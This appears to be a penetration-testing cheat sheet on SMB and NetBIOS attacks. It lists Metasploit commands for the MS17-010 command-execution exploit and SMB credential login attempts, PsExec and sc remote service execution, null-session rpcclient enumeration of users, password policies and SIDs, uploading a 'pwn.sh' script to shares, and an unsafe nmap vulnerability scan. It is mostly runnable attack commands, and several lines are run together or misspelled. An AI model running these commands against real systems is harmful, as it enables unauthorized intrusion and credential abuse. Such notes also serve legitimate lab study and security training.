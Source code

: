 ## Enumerating NetBIOS services 

The SMB Netbios service listens on the `445/tcp` port. 
It is also available through `139/tcp` port. 
A list to clarify SMB version numbers, and their related Windows OS versions: 
- SMB1 - Windows 2000, XP and Windows 2003. 
- SMB2 – Windows Vista SP1 and Windows 2008 
- SMB2.1 – Windows 7 and Windows 2008 R2 
- SMB3 – Windows 8 and Windows 2012

---

SMB Named Pipe MS017-010:

```bash
msf > use auxiliary/admin/smb/ms17_010_command
msf > setg RHOSTS 10.11.1.75
msf > set COMMAND ipconfig
msf > exploit
```

### Named Pipe

A way that processes communicate with each other via SMB (TCP 445).
Operates on Layer 5 of the OSI model.
Similar to how a port can listen for connections, a named pipe can also listen for requests.

### PsExec

`PsExec` comes from Microsoft’s Sysinternals suite and allows users to execute Powershell on remote hosts over port `445` (SMB) using named pipes.
It first connects to the ADMIN$ share on the target, over SMB, uploads `PSEXESVC.exe` and uses `Service Control Manager` to start the `.exe` which creates a named pipe on the remote system, and finally uses that pipe for I/O.

An example of the syntax is the following:

```bash
psexec \\test.domain -u Domain\User -p Password ipconfig
SC
Service Controller is exactly what it sounds like — it controls services.
This is particularly useful as an attacker because scheduling tasks is possible over SMB, so the syntax for starting a remote service is:
sc \\host.domain create ExampleService binpath= “c:\windows\system32\calc.exe”
sc \\host.domain start ExampleService
```

The only caveat to this is that the executable must  be specifically a service binary.
Service binaries are different in the sense that they must "check in" to the service control manager (SCM) and if it doesn't, it will exit execution.
So if a non-service binary is used for this, it will come back as an agent/beacon for a second, then die.

---

### Scanning a network with Nbtscan 

```bash
nbtscan 10.11.1.0/24
```

### Scanning a network with Metasploit 

```bash
msf > use auxiliary/scanner/netbios/nbname 
msf auxiliary(nbname) > set RHOSTS 192.168.1.200-210 
msf auxiliary(nbname) > set THREADS 11 
msf auxiliary(nbname) > run
```

## Enumerating SMB services 
### Scanning a network with Metasploit 

```bash
msf > use auxiliary/scanner/smb/smb_version 
msf auxiliary(smb_version) > setg RHOSTS 10.11.1.1-254 
msf auxiliary(smb_version) > setg THREADS 10 
msf auxiliary(smb_version) > run
```

### Finding nmap SMB scripts 

```bash
locate smb |grep nse |grep nmap |grep scripts |xargs grep categories
```

### Finding exposed SMB services 

```bash
nmap -p139,445 10.11.1.0/24 --open
```

### Logging in to SMB services with credentials 

```bash
msf > use auxiliary/scanner/smb/smb_login 
msf auxiliary(smb_login) > set RHOSTS 192.168.1.0/24 
msf auxiliary(smb_login) > set SMBUser victim 
msf auxiliary(smb_login) > set SMBPass s3cr3t 
msf auxiliary(smb_login) > set THREADS 50 
msf auxiliary(smb_login) > run
```

## Reading and writing to network shares 
### Mounting remote share over network 

```bash
sudo mount -t cifs //$IP/ITDEPT /mnt -o user=dawn
```

```bash
sudo smbmount "\\$IP\ITDEPT" /mnt -o user=dawn
```

### Getting files from shares 

```bash
smbmap -H 192.168.59.11 smbmap -H $IP -R
```

```bash
/usr/bin/smbclient "\\$IP\ITDEPT" --user dawn dawnpassword
```

### Uploading files to shares 

```bash
curl smb://192.168.59.11:445/ITDEPT/test.txt -T test.txt curl -u "DAWN/dawn:dawn" --upload-file pwn.sh "smb://$IP/ITDEPT/"
```

## Enumeration 

A null session refers to an unauthenticated NetBIOS session between two computers. 
This feature exists to allow unauthenticated machines to obtain browse lists from other Microsoft servers.

A null session also allows unauthenticated hackers to obtain large amounts of information about the machine, 
such as password policies, usernames, group names, machine names, user and host SIDs. 
This Microsoft feature existed in SMB1 by default and was later restricted in subsequent versions of SMB.

### Discovering open pipes

```bash
msf> use auxiliary/scanner/smb/pipe_auditor
```

### Logging in without credentials 

```bash
rpclient -U "" 10.11.1.8
```

### Using nmblookup
```bash
nmblookup
```

### Enumerating system properties 

```bash
rpcclient $> srvinfo
```

### Enumerating system users 

```bash
rpcclient $> enumdomusers
```

### Enumerating password policies 

```bash
rpcclient $> getdompwinfo
```

### Enumerating network shares 

```bash
rpcclient $> netshareenum
```

### Enumerating the user's SID 

```bash
rpcclient $> lookupnames root
```

### Enumerating privileges 

```bash
rpcclient $> enumprivs
```

### Getting user data with a SID 

```bash
rpcclient $> lookupsids S-1-5-21-1086716168-3792659489-4186792627-1000
```

### Using nmap with NULL session 

```bash
nmap -p139,445 --script smb-enum-users 10.11.1.24
```

### Running enum4linux 

```bash
enum4linux -v 10.11.1.24
```

### SMB vulnerability scan 

```bash
nmap -p139,445 --script vuln --script-args=unsafe=1 10.11.1.24
```
